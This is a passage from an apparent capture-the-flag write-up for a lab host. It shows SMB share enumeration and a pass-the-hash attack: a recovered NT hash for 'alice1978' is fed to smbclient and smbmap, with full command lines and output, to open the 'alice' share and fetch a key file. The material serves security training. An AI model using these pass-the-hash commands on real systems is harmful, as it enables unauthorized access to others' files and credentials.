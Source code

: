|         sambaMaxPwdAge: -1
|         sambaMinPwdAge: 0
|         sambaLockoutDuration: 30
|         sambaLockoutObservationWindow: 30
|         sambaLockoutThreshold: 0
|         sambaForceLogoff: -1
|         sambaRefuseMachinePwdChange: 0
|_        sambaNextRid: 1001

Nmap done: 1 IP address (1 host up) scanned in 599.78 seconds
There’s a couple users in there, bob8791 and alice1978. The passwords are both redacted, but alice1978 has an NT hash.
SMB - Port 139 / 445
Enumerate Shares
If I enumerate shares without a password, I get nothing back from either smbmap or smbclient:
root@kali# smbmap -H 10.10.10.107
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107
Disk                                                  	Permissions
----                                                  	-----------
[!] Access Denied

root@kali# smbclient -N -L [//10.10.10.107](notion://10.10.10.107)
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
Fortunately, SMB allows pass the hash, and I now have a hash for alice1978. To use a hash with smbclient, you just the same -U username%password format, but just put the hash in place of the password, and add the --pw-nt-hash option:
root@kali# smbclient -L \\\\10.10.10.107 --pw-nt-hash -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B

    Sharename       Type      Comment
    ---------       ----      -------
    alice           Disk      Alice's Windows Directory
    IPC$            IPC       IPC Service (Samba Server)

Reconnecting with SMB1 for workgroup listing.

    Server               Comment
    ---------            -------

    Workgroup            Master
    ---------            -------

I can do the same thing with smbmap just giving the hash as a password, but it requires a hash in LM:NT format. I can just add the LM hash for the empty string, aad3b435b51404eeaad3b435b51404ee.
root@kali# smbmap -u alice1978 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107
Disk                                                  	Permissions
----                                                  	-----------
alice                                             	READ, WRITE
IPC$                                              	NO ACCESS
Connect and Collect
I’ll connect to the alice share and grab the only file there, a ppk file:
root@kali# smbclient \\\\10.10.10.107\\alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
Try "help" to get a list of possible commands.